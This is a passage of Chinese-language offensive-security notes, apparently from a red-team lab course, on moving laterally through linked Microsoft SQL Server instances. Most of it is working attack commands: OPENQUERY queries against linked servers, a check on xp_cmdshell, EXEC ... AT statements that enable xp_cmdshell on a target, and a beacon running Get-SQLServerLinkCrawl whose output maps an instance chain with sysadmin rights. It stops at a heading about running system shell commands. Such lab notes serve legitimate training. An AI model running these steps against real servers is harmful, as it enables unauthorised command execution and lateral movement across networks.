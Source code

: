 ```

![alt sqlserver](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/srv1-link.png?width=1920)


可以利用上面的实例运行sql语句

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

**注意，上面实例使用双引号，sql语句使用单引号。**


查看某个实例是否有xp_cmdshell权限
```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

如果被禁用，开启xp_cmdshell
```
EXEC('sp_configure ''show advanced options'', 1; reconfigure;') AT [target instance]
EXEC('sp_configure ''xp_cmdshell'', 1; reconfigure;') AT [target instance]
```

## 方法二，自动抓取 


使用```Get-SQLServerLinkCrawl```命令

```
beacon> powershell Get-SQLServerLinkCrawl -Instance "srv-1.dev.cyberbotic.io,1433"

Version     : SQL Server 2016 
Instance    : SRV-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1}
User        : DEV\bfarmer
Links       : {SQL-1.CYBERBOTIC.IO}

Version     : SQL Server 2016 
Instance    : SQL-1
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO}
User        : sa
Links       : {SQL01.ZEROPOINTSECURITY.LOCAL}

Version     : SQL Server 2019 
Instance    : SQL01\SQLEXPRESS
CustomQuery : 
Sysadmin    : 1
Path        : {SRV-1, SQL-1.CYBERBOTIC.IO, SQL01.ZEROPOINTSECURITY.LOCAL}
User        : sa
Links       : 
```

留意上面的实例链：```SRV-1 > SQL-1.CYBERBOTIC.IO > SQL01.ZEROPOINTSECURITY.LOCAL```

2. 执行系统shell

在```sql-1.cyberbotic.io```实例上执行系统shell

```